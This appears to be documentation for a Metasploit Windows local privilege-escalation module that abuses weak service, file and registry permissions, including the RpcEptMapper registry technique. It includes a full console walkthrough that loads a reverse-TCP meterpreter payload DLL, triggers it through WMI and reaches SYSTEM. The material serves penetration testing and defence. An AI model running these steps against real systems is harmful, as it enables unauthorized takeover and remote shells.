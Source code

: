 This module attempts to exploit existing administrative privileges to obtain a SYSTEM session. If directly creating a
service fails, this module will inspect existing services to look for insecure configuration, file or registry
permissions that may be hijacked. It will then attempt to restart the replaced service to run the payload. This will
result in a new session when this succeeds.

## Escalation Techniques
This module attempts the following techniques to execute a payload as SYSTEM. All techniques involve writing artifacts
to disk on the target system.

### Technique: New Service Creation
The module will attempt to create a new service. This generally will not work unless the session is running as a user
with elevated privileges (such as Local Administrator) that are sufficient to create new services.

### Technique: Weak Service Permissions
The module will attempt to make changes to an existing service. This enumerates existing services and checks for the
permissions to edit each one. When one is found, the service is updated to execute a payload.

### Technique: Weak File System Permissions
The module will examine the file system permissions of the executable associated with each existing service. If one is
found where the user has write access, the module will leverage it to execute a payload in place of the original service
executable.

### Technique: Weak Registry Permissions
The module will check the permissions on each service's respective registry entries. It will then attempt to create a
`Performance` key where it can add values necessary to force a DLL to be loaded. Once completed, a WMI query is executed
to trigger the payload. This technique was originally discovered by Clément Labro and disclosed in the blog [Windows
RpcEptMapper Service Insecure Registry Permissions EoP](https://itm4n.github.io/windows-registry-rpceptmapper-eop/) on
November 12th, 2020.

**This technique notably affects default and fully patched installations of Windows 7 and Server 2008 R2.** Users should
either set the `TargetServiceName` option to `rpceptmapper` or enable the `AGGRESSIVE` option in this case. Without one
of these settings, it's possible the module may find an affected service other than the RpcEptMapper which may not yield
a session with elevated privileges. For an example, see the scenario below.

## Vulnerable Application

This technique is applicable to any version of Windows. A vulnerable installation however typically involves third-party
software that installs a service with insecure permissions. Furthermore, a user with Local Administrator privileges can
leverage this module to escalate to system by creating a new service.

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use [module path]`
1. Do: `run`
1. You should get a shell.

## Options

### AGGRESSIVE
Exploit as many services as possible (dangerous). When enabled, the module will continue to check for additional
services even after a vulnerable one has been found.

### TargetServiceName
The name of a specific service to target. This can be used to avoid targeting all available services in the case where
the module user wants to target a specific one. When specified, the service name is compared to others in a
case-insensitive manner per the [`CreateServiceA`][CreateServiceA] documentation.

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Windows 7 SP1 x64 (Weak Registry Permissions Technique)

```
msf6 exploit(windows/local/service_permissions) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: WIN-9NSI4A6AIHJ\aliddle
meterpreter > sysinfo
Computer        : WIN-9NSI4A6AIHJ
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getsystem
[-] 2001: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/local/service_permissions) > set SESSION -1
SESSION => -1
msf6 exploit(windows/local/service_permissions) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/service_permissions) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(windows/local/service_permissions) > set TargetServiceName rpceptmapper
TargetServiceName => rpceptmapper
msf6 exploit(windows/local/service_permissions) > set VERBOSE true
VERBOSE => true
msf6 exploit(windows/local/service_permissions) > show options

Module options (exploit/windows/local/service_permissions):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   AGGRESSIVE  false            no        Exploit as many services as possible (dangerous)
   SESSION     -1               yes       The session to run this module on.
   TIMEOUT     10               yes       Timeout for WMI command in seconds


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/service_permissions) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Trying to find weak permissions in existing services..
[-] Request Error 3014: Operation failed: Access is denied. falling back to registry technique
[*] [RpcEptMapper] Checking for weak file permissions
[-] The operation completed successfully.: C:\Windows\system32\svchost.exe
[*] [RpcEptMapper] Checking for weak service permissions
[*] [RpcEptMapper] Could not open service. OpenServiceA error: Access is denied.
[*] [RpcEptMapper] Checking for weak registry permissions
[+] [RpcEptMapper] Created registry key: HKLM\System\CurrentControlSet\Services\RpcEptMapper\Performance
[*] [RpcEptMapper] Writing payload DLL to C:\Users\aliddle\AppData\Local\Temp\njabikLo.dll
[*] [RpcEptMapper] Triggering the payload via WMI...
[*] [localhost] wmic /output:CLIPBOARD /INTERACTIVE:off /node:localhost Path Win32_Perf Get
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.61:50169) at 2020-11-19 12:23:41 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.61:50170) at 2020-11-19 12:23:41 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 4 opened (192.168.159.128:4444 -> 192.168.159.61:50171) at 2020-11-19 12:23:42 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 5 opened (192.168.159.128:4444 -> 192.168.159.61:50172) at 2020-11-19 12:23:42 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 6 opened (192.168.159.128:4444 -> 192.168.159.61:50173) at 2020-11-19 12:23:42 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[+] Deleted C:\Users\aliddle\AppData\Local\Temp\njabikLo.dll
[*] Meterpreter session 7 opened (192.168.159.128:4444 -> 192.168.159.61:50174) at 2020-11-19 12:23:43 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

[CreateServiceA]: https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea
